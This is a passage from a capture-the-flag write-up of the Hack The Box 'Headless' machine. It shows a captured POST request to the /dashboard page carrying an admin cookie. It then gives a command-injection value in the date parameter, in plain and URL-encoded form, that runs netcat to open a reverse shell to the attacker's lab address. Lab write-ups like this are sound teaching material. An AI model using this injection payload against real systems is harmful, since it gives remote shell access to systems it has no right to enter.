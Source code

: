 ### 3.2 Obtaining access

<figure><img src="../../../../../.gitbook/assets/imagen (2).png" alt=""><figcaption><p>Headless.htb /dashboard page</p></figcaption></figure>

In the `/dashboard` page the only thing we can do is generate a report. Inspecting the request with BurpSuite we can see that a post parameter is sent to the dashboard:

```
POST /dashboard HTTP/1.1
Host: headless.htb:5000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 15
Origin: http://headless.htb:5000
Connection: close
Referer: http://headless.htb:5000/dashboard
Cookie: is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0
Upgrade-Insecure-Requests: 1

date=2023-09-15
```

This parameter is vulnerable to remote code execution. Using the next parameter we can get a reverse shell:

Plain Text: `;nc -e /bin/bash 10.10.14.3 6969;`

URL Encoded: `%3b%6e%63%20%2d%65%20%2f%62%69%6e%2f%62%61%73%68%20%31%30%2e%31%30%2e%31%34%2e%33%20%36%39%36%39%3b`

Before sending the post request we should start a listener with netcat:
